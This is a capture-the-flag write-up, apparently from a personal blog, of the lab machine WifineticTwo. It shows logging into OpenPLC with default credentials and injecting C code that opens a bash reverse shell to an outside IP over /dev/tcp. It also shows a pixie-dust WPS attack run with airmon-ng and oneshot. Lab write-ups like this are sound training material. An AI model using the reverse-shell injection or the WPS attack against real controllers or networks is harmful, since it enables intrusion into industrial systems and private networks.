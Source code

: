 ```yaml
---
layout: post
title: "WifineticTwo 728a1a1fb96942678c00d6407a5a0611"
date: 2025-09-27
categories: writeups
---
```


# WifineticTwo

# 1. Enumeration

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled.png' | relative_url }})

There is a http service, take a look of the web application

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_1.png' | relative_url }})

OpenPLC used openplc as default credentials, we use it and it worked.

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_2.png' | relative_url }})

# 2. User flag

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_3.png' | relative_url }})

Inside there is a section with C code that it may run on the server so we try to inject a rev shell

```c
#include "ladder.h"
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

//-----------------------------------------------------------------------------
// DISCLAIMER: EDDITING THIS FILE CAN BREAK YOUR OPENPLC RUNTIME! IF YOU DON'T
// KNOW WHAT YOU'RE DOING, JUST DON'T DO IT. EDIT AT YOUR OWN RISK.
//
// PS: You can always restore original functionality if you broke something
// in here by clicking on the "Restore Original Code" button above.
//-----------------------------------------------------------------------------

//-----------------------------------------------------------------------------
// These are the ignored I/O vectors. If you want to override how OpenPLC
// handles a particular input or output, you must put them in the ignored
// vectors. For example, if you want to override %IX0.5, %IX0.6 and %IW3
// your vectors must be:
//     int ignored_bool_inputs[] = {5, 6}; //%IX0.5 and %IX0.6 ignored
//     int ignored_int_inputs[] = {3}; //%IW3 ignored
//
// Every I/O on the ignored vectors will be skipped by OpenPLC hardware layer
//-----------------------------------------------------------------------------
int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

//-----------------------------------------------------------------------------
// This function is called by the main OpenPLC routine when it is initializing.
// Hardware initialization procedures for your custom layer should be here.
//-----------------------------------------------------------------------------
void initCustomLayer()
{
}

//-----------------------------------------------------------------------------
// This function is called by OpenPLC in a loop. Here the internal input
// buffers must be updated with the values you want. Make sure to use the mutex 
// bufferLock to protect access to the buffers on a threaded environment.
//-----------------------------------------------------------------------------
void updateCustomIn()
{
    // Example Code - Overwritting %IW3 with a fixed value
    // If you want to have %IW3 constantly reading a fixed value (for example, 53)
    // you must add %IW3 to the ignored vectors above, and then just insert this 
    // single line of code in this function:
    //     if (int_input[3] != NULL) *int_input[3] = 53;
}

#define LHOST "10.10.14.246"
#define LPORT "1234"

//-----------------------------------------------------------------------------
// This function is called by OpenPLC in a loop. Here the internal output
// buffers must be updated with the values you want. Make sure to use the mutex 
// bufferLock to protect access to the buffers on a threaded environment.
//-----------------------------------------------------------------------------
void updateCustomOut()
{
    int pipefd[2];
    pid_t pid;

    if (pipe(pipefd) == -1) {
        exit(EXIT_FAILURE);
    }

    pid = fork();
    if (pid == -1) {
        exit(EXIT_FAILURE);
    }

    if (pid == 0) {
        close(pipefd[0]);
        dup2(pipefd[1], STDOUT_FILENO);
        execl("/bin/bash", "/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/" LHOST "/" LPORT " 0>&1 &", NULL);
        exit(EXIT_FAILURE);
    } else {
        close(pipefd[1]);
        wait(NULL);
    }
```

Save and compile

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_4.png' | relative_url }})

It is necessary to run start PLC to execute the reverse shell. 

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_5.png' | relative_url }})

# 3.Priv esc

To get the root flag on this machine we need to use wlan0 interface to hack a wifi network 

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_6.png' | relative_url }})

We can enumerate and try to make a pixie dust attack using oneshot, this attack steal a pin on the router which will help later to access to the password saved on the router.

```jsx
sudo airmon-ng check kill
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_7.png' | relative_url }})

Once we found the password it’s time to connect to the wifi network

We will need two files and a set of command according with the documentation.

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_8.png' | relative_url }})

First path: /etc/wpa_supplicant/wpa_supplicant-wlan0.conf

```c
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=0
update_config=1

network={
  ssid="<NETWORK_SSID>"
  psk="<NETWORK_PASSWORD>"
  key_mgmt=WPA-PSK
  proto=WPA2
  pairwise=CCMP TKIP
  group=CCMP TKIP
  scan_ssid=1
}
```

Second path: /etc/systemd/network/25-wlan.network

```c
[Match]
Name=wlan0

[Network]
DHCP=ipv4
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_9.png' | relative_url }})

```coq
#Enable wpa supplicant to connect it trought it
systemctl enable wpa_supplicant@wlan0.service
#Restart the services to connect automatically
systemctl restart systemd-networkd.service
systemctl restart wpa_supplicant@wlan0.service
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_10.png' | relative_url }})

Use ssh to get into the router and machine pwned!!!

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_11.png' | relative_url }})
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
